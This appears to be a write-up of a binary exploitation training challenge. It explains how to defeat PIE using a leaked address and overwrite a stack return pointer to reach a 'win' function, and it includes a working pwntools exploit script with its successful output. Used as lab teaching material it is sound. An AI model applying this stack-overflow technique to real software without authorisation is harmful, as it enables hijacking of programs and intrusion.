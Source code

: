 # 06_ret_overwrite_pie_noCanary Writeup

## Steps:
1. Run chall. Notice in this one PIE is enabled. This means that thememory locations are not fixed
```
$ ./chall 

Your goal is to modify the return pointer @ 0x7ffd89d06a78, to a function called 'win' in the binary.

The next protection you will learn, is position-independent code (PIC) or more often position-independent executable (PIE)
Previoiously the base address of the binaries was 0x40000. This time this address will look something like '0x558b5e6ff000'.
This is bypassed by leaking an address, determining the base address from the leak, and then determining any addresses to code
from their offsets. If you are confused by any of this, do some research to better understand it!

Like last time, we will start with a hint @ 0x563032966010

0x7ffd89d06a50: 0x0000000000000000 0x0000000000000000 
0x7ffd89d06a60: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffd89d06a70: 0x0000000000000001 0x00007f558da5fca8 

Enter input: AAAA

0x7ffd89d06a50: 0x0000000a41414141 0x0000000000000000 
0x7ffd89d06a60: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffd89d06a70: 0x0000000000000001 0x00007f558da5fca8 

You failed to overwrite the return pointer.
```
2. Using gdb gef, notice that every time we run it the hint is at the same location. This means we can use gdb to get the relative distance between the `hint` and `win`
- `info function win` gives us `0x00005555555555d9  win`
- `hint` is at `0x555555558010`

    So `0x8010 - 0x55d9 = 0x2a37`

3. Recieve the `hint` and subtract `0x2a37` to calculate the address of `win`
4. Create the payload, similar to previous problems
- 40 bytes of garbage to reach return pointer
- address of `win`
```
from pwn import *

target = process("./chall")

target.recvuntil("hint @ 0x")
hint = target.recvuntil("\n")
print(hint)

win = int(hint, 16) - 0x2A37


payload = b"A" * 8 * 5
payload += p64(win)

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py 
[+] Starting local process './chall': pid 73075
/home/kali/Binex-Writeups/binex_tuts/06_ret_overwrite_pie_noCanary/exploit.py:5: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.recvuntil("hint @ 0x")
/home/kali/Binex-Writeups/binex_tuts/06_ret_overwrite_pie_noCanary/exploit.py:6: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  hint = target.recvuntil("\n")
b'5582bf85b010\n'
[+] Receiving all data: Done (524B)
[*] Process './chall' stopped with exit code 0 (pid 73075)

0x7ffd8bc108a0: 0x0000000000000000 0x0000000000000000 
0x7ffd8bc108b0: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffd8bc108c0: 0x0000000000000001 0x00007f1ddbe01ca8 

Enter input: 
0x7ffd8bc108a0: 0x4141414141414141 0x4141414141414141 
0x7ffd8bc108b0: 0x4141414141414141 0x4141414141414141 
0x7ffd8bc108c0: 0x4141414141414141 0x00005582bf8585d9 

Congrats, you successuly changed execution flow!
```
